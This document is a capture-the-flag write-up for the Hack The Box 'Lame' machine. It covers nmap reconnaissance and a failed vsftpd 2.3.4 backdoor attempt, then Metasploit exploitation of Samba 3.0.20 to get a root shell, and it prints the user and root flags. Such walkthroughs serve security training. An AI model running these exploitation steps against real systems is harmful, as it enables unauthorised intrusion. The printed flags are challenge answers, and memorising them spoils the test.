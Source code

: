 #Samba #Metasploit

# Reconnaissance

```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.3 --type All
# nmap manually
nmap -sV -sC -A 10.10.10.3
```

```txt
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-25T10:34:09-04:00
|_clock-skew: mean: 1h59m48s, deviation: 2h49m43s, median: -12s

```
# Enumeration

## Enumerate on port 21

FTP anonymous

```bash
ftp 10.10.10.3
anonymous
ls -lah
```

We will note that the version of FTP is vsftpd 2.3.4. We should try to Exploit it. Try vsftpd 2.3.4 - Backdoor Command Execution but failed.

```bash
# We try exploit ftp but failed.
searchsploit vsftpd 2.3.4
searchsploit -m 49757
python3 49757.py host 10.10.10.3
```

## Enumerate on port 139 445
After attempting (and failing) to enter using the “obvious” vsftpd attack vector, Samba becomes the only target.

```bash
searchsploit Samba 3.0.20
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Lame]
└─$ searchsploit Samba 3.0.20

Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                      | unix/remote/16320.rb
```


# Exploit
## Exploit by Metasploit

```bash
# msfconsole
sudo msfdb init
msfconsole
search 3.0.20
use 0
# set options
show options
set rhosts 10.10.10.3
set lhost 10.10.14.4
run
```

Shell:

```bash
ls
shell
```
![[lame-1.png]]

# Privilege Escalation (NA)
# Get the flag
We use id found we are root user now.

![[lame-4.png]]

```bash
id
ls
cd home
cd makis
cat user.txt
# b91fd488fb60b569bde480d0c0b7b817
```

![[lame-2.png]]

```bash
cd /root
ls
cat root.txt
# f3aeba2326b0713cb65526d9422ea6be
```

![[lame-3.png]]

